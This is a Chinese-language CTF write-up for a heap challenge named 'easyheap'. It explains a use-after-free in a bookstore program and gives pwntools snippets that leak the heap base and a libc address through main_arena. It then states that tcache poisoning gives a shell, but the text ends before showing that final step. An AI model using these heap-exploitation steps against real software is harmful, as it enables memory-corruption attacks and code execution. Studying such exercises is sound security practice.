



# easyheap

這題的思路和 final 相似，只是 leak 方法會有一點變化，我的策略是一開始先 leak heap 的 base address，這部分很簡單，直接 add_book 在 delete_book，因為 delete_book 沒有把 pointer 清掉所以可以做到 UAF，就可以用 list_book 把存在 `index` 的 free chunk 內容給 leak 出來，算一下 offset 就可以得到 heap base：

```python
add_book(0, 0x10, b"dummy", 0xdeadbeef)
delete_book(0)
p.sendlineafter("--- happy bookstore ---", "4")
p.recvuntil("Index:\t")
heap_base = int(p.recvline(keepends=False)) - 0x10
```

接下來就是操作來 leak glibc 的 address，這邊的手法跟 final 也滿像的，首先先加入一些 book：

```python 
add_book(1, 0x10, b"dummy", 0xdeadbeef)
add_book(2, 0x10, b"dummy", 0xdeadbeef)
add_book(3, 0x410, b"A"*0x410, 0xdeadbeef)
add_book(4, 0x410, b"A"*0x410, 0xdeadbeef)
delete_book(1)
delete_book(2)
```



接下來拿 0x28 的大小時，`books[5]->name` 就會被只向 `books[1]`上，然後對 `books[1]->name` 寫入 chunk F 的位址，接著 free `books[3]`

```python
add_book(5, 0x28, p64(heap_base + 0x378), 0xdeadbeef)
delete_book(3)
```



接著透過 find book 就可以 print 出 main_arena 的位址，就可以得到 libc 的位址了：

```python
p.sendlineafter("--- happy bookstore ---", "5")
p.sendlineafter("Index: ", "1")
p.recvuntil("Name: ")
main_arena = int(p.recvline(keepends=False)[::-1].hex(), base=16)
```

接下來就操作 tcache poisoning，就可以拿到 shell 了：

